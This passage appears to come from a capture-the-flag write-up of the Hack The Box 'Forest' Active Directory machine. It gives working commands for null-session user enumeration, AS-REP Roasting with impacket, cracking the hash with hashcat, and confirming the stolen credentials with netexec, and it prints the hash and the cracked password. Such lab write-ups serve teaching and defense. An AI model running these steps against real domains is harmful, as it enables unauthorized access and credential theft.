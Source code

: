 ![](/img/Forest/Pasted%20image%2020250301231041.png)
![](/img/Forest/Pasted%20image%2020250301231139.png)
⚠️ For Sysadmins reading this- This is a goldmine for attackers, as it can expose privileged accounts, domain users,  misconfigured groups, or potential password reuse scenarios if any. Additionally, it provides a blueprint of the domain’s organizational structure, allowing a threat actor to plan an attack with a greater precision.
```
rpcclient -U '' -N 10.10.10.161
```
![](/img/Forest/Pasted%20image%2020250301224054.png)
Since `rpcclient` produced more valid results than Kerbrute (which can sometimes yield false positives), I compiled a clean list of valid domain users and checked  to see if there any accounts vulnerable to an AS-REP Roasting attack.
##### **What is AS-REP Roasting?**
Certain user accounts in Active Directory  have UF_DONT_REQUIRE_PREAUTH flag set, meaning they don’t require Kerberos pre-authentication.Pre-authentication is the initial stage of Kerberos authentication, which is managed by the KDC Authentication server and is meant to prevent brute-force attacks. If an account has this misconfiguration, we can request a TGT (Ticket Granting Ticket) without credentials and attempt to crack the hash offline. We use the famous impacket library.
```
impacket-GetNPUsers htb.local/ -no-pass -usersfile domainusers.txt -dc-ip 10.10.10.161
```
![](/img/Forest/Pasted%20image%2020250301224241.png)
![](/img/Forest/Pasted%20image%2020250301223305.png)
Bingo! The account  svc-alfresco@HTB.LOCAL was flagged as vulnerable:
> **svc-alfresco** has `UF_DONT_REQUIRE_PREAUTH` set, making it susceptible to an **AS-REP Roasting attack**.

With the AS-REP hash obtained, we can now do offline password cracked offline and obtain plaintext password. For this we can use hashcat to attempt cracking it with the rockyou wordlist:
```
vi hash.txt
hashcat -m 18200 hash.txt /usr/share/wordlists/rockyou.txt --force
```
![](/img/Forest/Pasted%20image%2020250301224649.png)
```
$krb5asrep$23$svc-alfresco@HTB.LOCAL:2a17f2e1db3be277b386f3770e886f23$89e51f3c7b6bd1b38e5d7530eaeec845500deb9867bdc0acd3a192048fabcb5da675db50e8a92a1a22e698cd3f2e365fb5b7fad3945730bb946393c4bfc95039f45f88f5e1cd506a973d64980ea8eca6aa6696e938d365ebb493bebea87e1949c3340f2841771765f94f925400e170dceb3daf6a78f9b4622c0b1e138798a5c4c808bcd1946c716e84c6a36e7b47122b42f635d908274baa5bf2045d78dd9275e6d25bbff52f0e6e8a15337fedfb3adbd01a4a3008b53f3c6a13e686688964bff35612e9f25a28fa957745e7564e5a79b49a3c19fba5890ad80e8d373ecc04a9186572e4f911:s3rvice
```
![](/img/Forest/Pasted%20image%2020250301224934.png)
### Intial FootHold
After few minutes we  successfully crack the password (`s3rvice`), and now have a valid domain credentials. This opens the door to a whole range of attack vectors, including authenticated scanning, enumeration, and lateral movement.
Before jumping into exploitation, let's  confirm  the credentials using netexec.
```
netexec smb 10.10.10.161 -u svc-alfresco -p 's3rvice'
SMB         10.10.10.161    445    FOREST           [*] Windows Server 2016 Standard 14393 x64 (name:FOREST) (domain:htb.local) (signing:True) (SMBv1:True)
SMB         10.10.10.161    445    FOREST           [+] htb.local\svc-alfresco:s3rvice
```
With everything checked out—credentials are solid! Now, let's move on to Evil-WinRM, a powerful tool for interacting with Windows systems over WinRM (Windows Remote Management).
![](/img/Forest/Pasted%20image%2020250301225117.png)
